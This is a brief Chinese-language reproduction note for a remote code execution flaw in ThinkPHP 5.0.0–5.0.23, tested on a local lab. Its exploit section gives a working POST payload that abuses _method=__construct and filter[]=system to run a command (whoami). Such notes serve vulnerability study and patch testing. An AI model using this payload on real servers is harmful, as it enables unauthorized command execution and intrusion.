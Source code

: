 # 0x00 软件介绍
ThinkPHP：一款在中国流行的php开发框架

# 0x01 复现环境
使用环境：win10 x64  
复现版本：ThinkPHP 5.0.22

# 0x02 环境搭建
下载thinkphp_5.0.22_with_extend.zip  
解压后访问http://127.0.0.1/thinkphp_5.0.22_with_extend/public/index.php

# 0x03 利用条件
无

# 0x04 影响版本
ThinkPHP 5.0.0 ~ 5.0.23

# 0x05 漏洞复现
攻击环境：win10 x64

攻击payload如下：
```
http://127.0.0.1/thinkphp_5.0.22_with_extend/public/index.php?s=captcha

POST:

_method=__construct&filter[]=system&method=get&get[]=whoami
```
执行结果如下图  
![image](./0.png)

# 0x06 批量脚本
无

# 0x07 踩坑记录
无

# 0x08 参考链接
https://xz.aliyun.com/t/3845
